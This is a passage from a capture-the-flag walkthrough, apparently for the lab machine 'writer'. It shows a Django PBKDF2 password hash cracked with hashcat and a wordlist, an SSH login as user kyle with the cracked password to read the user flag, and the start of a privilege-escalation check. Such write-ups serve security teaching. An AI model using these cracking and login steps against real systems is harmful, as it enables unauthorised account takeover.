 ```
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
```

However, we are only able to obtain the hash of the password for ```kyle```. But, we would have to identify the hash type that we are looking at.

```
┌──(kali㉿kali)-[~]
└─$ hashcat -h | grep "PBKDF2-SHA256"
   9200 | Cisco-IOS $8$ (PBKDF2-SHA256)                    | Operating System
  10000 | Django (PBKDF2-SHA256)                           | Framework
```

Now that we have identified that the hash most likely belongs to a hash generated by the Django framework, we will now try to crack the hash using Hashcat.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 10000 hash.txt rockyou.txt  
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 10000 hash.txt rockyou.txt --show                                             3 ⚙
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
```

All that is left for us to do is to SSH into ```kyle``` and obtain the user flag.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh kyle@10.10.11.101                                                                    3 ⚙
The authenticity of host '10.10.11.101 (10.10.11.101)' can't be established.
ECDSA key fingerprint is SHA256:GX5VjVDTWG6hUw9+T11QNDaoU0z5z9ENmryyyroNIBI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.101' (ECDSA) to the list of known hosts.
kyle@10.10.11.101's password: 
Last login: Fri Sep 17 16:56:56 2021 from 10.10.14.15
kyle@writer:~$ ls
user.txt
kyle@writer:~$ cat user.txt
<Redacted user flag>
kyle@writer:~$ 
```

## Obtaining the root flag

Let's first try our luck if there are any binaries that can be executed without any password, but with root privileges. It seems that luck is no longer on our side this time. 

```
kyle@writer:~$ sudo -l
[sudo] password for kyle: 
Sorry, user kyle may not run sudo on writer.
```
